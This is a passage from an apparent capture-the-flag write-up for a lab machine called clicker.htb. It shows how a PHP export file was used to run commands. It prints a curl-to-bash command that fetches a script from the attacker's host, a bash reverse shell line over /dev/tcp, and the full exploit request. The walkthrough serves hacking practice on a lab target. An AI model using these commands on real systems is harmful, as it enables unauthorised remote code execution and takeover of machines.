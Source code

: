 We changed the extension of the exported data to php in order to be able to execute our payload.

After we send this request, it will give us the path of the exported data:

![](./images/20230927122521.png)

Now let's go to that url and execute whatever command we want.

So we will do this command:

```
curl%20http://10.10.14.38/bashRev|bash
```

We open an http server locally to upload a bash reverse shell on the target machine .

![](./images/20230927122758.png)

The content of bashRev file:
```
bash -i >& /dev/tcp/<attacker IP>/PORT 0>&1
```

Final request is:
```
http://clicker.htb/exports/top_players_pnj0jd5w.php?cmd=curl%20http://10.10.14.38:8000/bashRev|bash
```

And finally we get a reverse shell:

![](./images/20230927123009.png)
